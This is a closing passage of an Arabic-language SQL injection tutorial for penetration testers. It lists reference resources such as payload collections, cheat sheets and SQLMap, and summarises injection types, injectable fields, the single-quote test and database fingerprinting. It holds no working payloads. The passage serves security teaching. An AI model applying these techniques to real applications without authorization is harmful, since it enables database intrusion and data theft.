| **PortSwigger Cheat Sheet** | portswigger.net/web-security/sql-injection/cheat-sheet | مرجع سريع لكل الـ SQLi techniques |
| **OWASP WSTG** | owasp.org/www-project-web-security-testing-guide/ | الدليل الرسمي لاختبار الأمان |

### مصادر إضافية مهمة:

| المصدر | الفائدة |
|--------|---------|
| **HackTricks SQLi** | شرح تفصيلي مع أمثلة لكل نوع |
| **SQLMap Wiki** | التوثيق الرسمي لأقوى أداة SQLi |
| **PayloadsAllTheThings** | مجموعة شاملة لكل أنواع الـ Payloads |
| **PentestMonkey SQL Cheatsheets** | ملخصات سريعة لكل داتابيز |

> 📝 **نصيحة:** احفظ المصادر دي في Bookmarks. في وقت الـ Pentest مش هتفتكر كل Payload — المهم تعرف تلاقيه بسرعة!

---

## 🎯 ملخص الجزء الثاني

| المفهوم | الشرح | الأهمية |
|---------|-------|---------| 
| **In-Band SQLi** | النتيجة في نفس الصفحة (Error/Union) | الأشهر والأسهل |
| **Blind SQLi** | استنتاج من سلوك التطبيق (Boolean/Time) | الأكثر انتشاراً في التطبيقات الحديثة |
| **OOB SQLi** | البيانات على قناة تانية (DNS/HTTP) | بيتخطى الحمايات اللي بتمنع الأنواع التانية |
| **Injectable Fields** | Login, Search, URL, Hidden, Cookies | كل مكان بيتفاعل مع DB = هدف |
| **Integer vs String** | أنواع الـ Parameters وطرق اختبارها | لازم تعرف النوع عشان تختار الـ Payload |
| **Single Quote** | السلاح الأول في SQLi | أول حاجة بتجربها دايماً |
| **DB Fingerprinting** | تحديد نوع الداتابيز من الـ Error | كل DB ليها Payloads مختلفة |

### 🔧 أهم الـ Key Takeaways:

```
✅ SQLi ليها 3 أنواع رئيسية: In-Band, Blind, OOB
✅ كل نوع ليه طريقة اكتشاف واستغلال مختلفة
✅ الـ Single Quote (') هو أول اختبار دايماً
✅ Integer-Based ≠ String-Based — لازم تفرّق
✅ DB Fingerprinting مهم عشان تعرف أيه الـ Payloads المناسبة
✅ OWASP WSTG هو مرجعك الأساسي
```

> 📝 **الجزء الجاي:** هندخل في **الاستغلال العملي** — Error-Based SQLi و Union-Based SQLi بالتفصيل مع **Demos** حقيقية! جهز Burp Suite و DVWA! 🛠️
